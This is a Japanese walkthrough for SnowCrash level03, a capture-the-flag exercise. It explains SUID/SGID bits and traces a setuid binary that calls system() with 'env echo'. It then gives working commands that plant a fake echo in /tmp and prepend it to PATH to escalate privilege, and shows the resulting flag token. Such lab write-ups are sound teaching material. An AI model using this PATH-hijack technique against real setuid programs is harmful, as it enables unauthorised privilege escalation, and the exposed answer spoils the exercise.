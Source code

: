 
```sh
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```


-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

SUID (s in owner権限位置):
プログラム実行時、実行者は一時的にファイル所有者 (この場合 flag03) の権限で実行できます
バイナリファイル実行時のみ有効
SGID (s in group権限位置):
プログラム実行時、実行者は一時的にファイルのグループ (この場合 level03) の権限で実行できます

https://docs.oracle.com/cd/E19455-01/806-2718/secfiles-69/index.html

実ユーザーIDと実効ユーザーIDが異なる場合、実効ユーザーIDがファイルの所有者である場合、ファイルの所有者の権限が使用されます。

実行してみる

```sh
level03@SnowCrash:~$ ./level03
Exploit me
```

level03の実行ファイルがあるので、中身を見る

```sh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                                                                   = 2003
geteuid()                                                                                                                                   = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                         = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                      = 0
+++ exited (status 0) +++
```

/usr/bin/env echo Exploit me"Exploit me が実行されている


偽のechoを作成して、PATHを変更する

```sh
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
```

```sh
export PATH=/tmp:$PATH
```

答えが見える

```sh
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


## 補足

ギドラだと、以下のようなコードになっている

```
void main(void)
{
  __gid_t __rgid;
  __uid_t __ruid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

system()関数を使用するとき、セキュリティ上の理由から、ライブラリやシェルはプロセスの効果的ユーザーIDを実ユーザーIDに戻すことがあります。これは、特権のエスカレーションを防ぐための一般的な安全対策です。

しかし、このプログラムでは、setresuid()とsetresgid()を使用して、実ユーザーIDと実効ユーザーIDを同じに設定し、特権が維持されるようにしています。これにより、system()を呼び出したときに、特権が失われることを防いでいます。

もしこのコードがなければ、system()呼び出し時に実効ユーザーIDが実ユーザーID（level03）にリセットされ、getflagを実行する権限がなくなる可能性があります。これはsystem()に渡すプログラムやsystem()の実装に依存します。
